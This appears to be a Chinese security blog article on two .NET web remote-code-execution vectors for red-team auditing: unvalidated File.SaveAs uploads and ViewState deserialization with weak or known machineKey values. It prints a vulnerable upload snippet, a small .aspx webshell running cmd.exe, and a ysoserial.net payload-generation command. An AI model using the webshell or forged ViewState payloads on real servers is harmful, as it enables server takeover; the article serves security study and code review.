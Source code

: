 #  .NET 介绍一种新型 RCE 利用点分析与漏洞挖掘思路  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-17 01:05  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队对目标进行 Web 渗透测试、权限维持与横向移动前期，代码审计往往是至关重要的技术环节。特别是在 .NET Web 应用中，存在一些极具价值的攻击面，可以直接达成远程代码执行，进而控制服务器。其中最常见、最值得关注的两个函数点就是：File.Save 文件上传逻辑和 ViewState 状态管理逻辑中的反序列化。  
  
**01. File.Save 上传**  
  
  
  
File.SaveAs()  
 是 .NET 中常见的文件保存方法，通常用于处理上传请求。如果对文件名、扩展名、路径等缺乏有效控制，则极易导致**任意文件上传漏洞**  
。一旦攻击者能上传 .aspx  
 等可执行脚本，即可直接访问 WebShell 实现远程命令执行，具体可参考如下代码。  
  
```
if(Request.Files["upload"]!=null){var file = Request.Files["upload"];string savePath = Server.MapPath("~/uploads/"+ file.FileName);    file.SaveAs(savePath);}
```  
  
  
该代码段没有对文件名、扩展名、路径进行任何校验，存在明显安全隐患。  
审计  
重点：是否对 file.FileName 进行了扩展名白名单校验？是否过滤了路径  
穿越符号？是否上传到具备脚本解析权限的目录下？是否允许上传 .aspx、.ashx 等执行型脚本？  
  
红队可构造如下 .aspx  
 木马脚本  
  
```
<%@ Page Language="C#"%><% System.Diagnostics.Process.Start("cmd.exe","/c whoami > c:\\whoami.txt");%>
```  
  
  
将其上传至目标站点的 ~/uploads/  
 目录下，命名为 shell.aspx  
，随后通过浏览器访问：  
  
```
http://target/uploads/shell.aspx
```  
  
  
即可在目标服务器上执行命令，完成 RCE 攻击。  
  
**02.ViewState反序列化**  
  
  
  
.NET WebForms 使用 ViewState 实现服务端与客户端之间的状态同步。正常情况下，ViewState 使用 MachineKey 加签以防止被篡改。但若存在如下情况：页面配置 EnableViewStateMac="false"  
；Web.config 中 MachineKey 固定（可被预测或暴力）；攻击者已知 MachineKey 的值。  
  
攻击者则可以构造恶意 ViewState 载荷，触发服务端反序列化，从而远程执行命令，如下配置存在安全隐患。  
  
```
<pages enableViewState="true" viewStateEncryptionMode="Always"/><machineKey validationKey="A1B2C3D4...固定值" decryptionKey="D4C3B2A1..." validation="SHA1" decryption="AES"/>
```  
  
  
若 validationKey 和 decryptionKey 为公开或弱值，攻击者可以伪造任意合法签名 ViewState。攻击者可使用 ysoserial.net  
 工具生成恶意序列化载荷：  
  
```
ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "calc"-o base64
```  
  
  
将生成的 Base64 载荷作为 __VIEWSTATE  
 字段值提交至页面，服务端在还原 ViewState 时将执行攻击者指定的命令如启动计算器。  
  
无论是在客户端上传场景，还是服务器端状态反序列化场景中，File.Save  
 和 ViewState  
 都是.NET Web 应用中最容易被攻击者利用实现远程命令执行的关键位置。  
  
**03. 扩展的危险方法**  
  
  
  
除了 File.SaveAs()  
 和 ViewState  
 反序列化之外，在 .NET Web 应用中，**另一个常见的可实现远程代码执行的方法，具体详情请看如下视频演示。**  
  
